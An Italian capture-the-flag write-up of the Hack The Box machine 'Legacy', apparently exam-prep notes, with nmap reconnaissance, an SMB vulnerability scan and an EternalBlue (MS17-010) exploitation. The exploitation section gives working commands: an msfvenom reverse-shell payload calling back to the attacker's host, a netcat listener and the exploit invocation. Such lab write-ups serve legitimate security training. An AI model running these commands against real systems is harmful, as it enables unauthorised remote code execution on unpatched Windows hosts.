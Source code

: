 # Legacy

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.4
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.4
Host is up (0.046s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/21%OT=135%CT=1%CU=30271%PV=Y%DS=2%DC=I%G=Y%TM=65
OS:5C7054%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=2%ISR=110%TI=I%CI=I%II=I%SS=
OS:S%TS=0)SEQ(SP=105%GCD=1%ISR=10F%TI=I%CI=I%II=I%SS=S%TS=0)SEQ(SP=FD%GCD=1
OS:%ISR=10F%TI=I%CI=I%II=I%SS=S%TS=0)SEQ(SP=FE%GCD=1%ISR=110%TI=I%CI=I%II=I
OS:%SS=S%TS=0)SEQ(SP=FF%GCD=1%ISR=10F%TI=I%CI=I%II=I%SS=S%TS=0)OPS(O1=M54DN
OS:W0NNT00NNS%O2=M54DNW0NNT00NNS%O3=M54DNW0NNT00%O4=M54DNW0NNT00NNS%O5=M54D
OS:NW0NNT00NNS%O6=M54DNNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4=FAF0%W5=FAF0%
OS:W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M54DNW0NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S
OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y
OS:%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M54DNW0NNT00NNS%RD=0%Q=)T4(R=Y%DF=N%T=
OS:80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=N%T=80%W=0%S=Z
OS:%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G%RID=G%RIPCK=G%
OS:RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:35:69 (VMware)
|_clock-skew: mean: 5d00h57m40s, deviation: 1h24m50s, median: 4d23h57m40s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-11-26T12:52:14+02:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

Provo ad eseguire una scansione completa:

```text
sudo nmap -sC -sV -O -p- -oA /usr/share/nmap/full 0.0.0.0
```

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.4
Host is up (0.045s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Aggressive OS guesses: Microsoft Windows XP SP2 or SP3 (96%), Microsoft Windows XP SP3 (96%), Microsoft Windows Server 2003 SP1 or SP2 (94%), Microsoft Windows Server 2003 SP2 (94%), Microsoft Windows Server 2003 SP1 (94%), Microsoft Windows 2003 SP2 (94%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (93%), Microsoft Windows 2000 SP4 (93%), Microsoft Windows XP Professional SP2 or Windows Server 2003 (93%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h57m39s, deviation: 1h24m51s, median: 4d23h57m39s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:35:69 (VMware)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-11-26T12:54:15+02:00
```

Inifine, eseguo un'ultima scansione udp:

```text
sudo nmap -sU -O -p- -oA /usr/share/nmap/udp 0.0.0.0
```

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.4
Host is up (0.047s latency).
Not shown: 65527 closed udp ports (port-unreach)
PORT     STATE         SERVICE
123/udp  open          ntp
137/udp  open          netbios-ns
138/udp  open|filtered netbios-dgm
445/udp  open|filtered microsoft-ds
500/udp  open|filtered isakmp
1025/udp open|filtered blackjack
1900/udp open|filtered upnp
4500/udp open|filtered nat-t-ike
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops
```

Passo quindi alla fase successiva.

## Enumeration

Dalle scansioni precedenti un entry point possibile è quello relativo a SMB. Per questo motivo lancio una scansione nmap per scoprire se esistono delle vulnerabilità:

```text
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```

Ottengo il seguente risultato:

```text
Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

L'output della scansione mostrà che il sistema è vulnerabile alle seguenti CVE:
  - CVE-2009–3103
  - CVE-2017–0143
  - CVE-2008–4250

Proseguo tentando di sfruttare la CVE-2017–0143 (MS17–010).


## Exploitation

In particolare la vulnerabilità in questione si chiama Eternal Blue. Questa sfrutta l'implementazione del protocollo Server Message Block (SMB), inviando un pacchetto modificato in maniera specifica per ottenere il permesso di eseguire codice sulla macchina target.

In questo [articolo](https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/) viene spiegato come sfruttare la vulnerabilità (senza l'utilizzo di Metasploit).

Per prima cosa scarico questo repository da github:

```text
git clone https://github.com/helviojunior/MS17-010.git
```

Creo una reverse-shell tramite l'utilizzo di _MSFvenom_ (RICORDARE CHE E' POSSIBILE FARLO DURANTE L'ESAME OSCP MA NON DEVE ESSERE UTILIZZATO IL METERPRETER):

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=9999 -f exe > eternalblue.exe
```

Avvio un listener sulla porta 9999:

```text
nc -nlvp 9999
```

Ed eseguo l'exploit:

```text
python send_and_execute.py 10.10.10.4 eternalblue.exe
```

**Sono dentro!**

<p align="center">
  <img src="/Immagini/Windows-Box/Legacy/legacy-1.png"/>
</p>

Navigando tra le directory mi rendo conto che non c'è bisogno di scalare i privilegi per questa macchina, in quanto c'è sia il flag user che quello root.
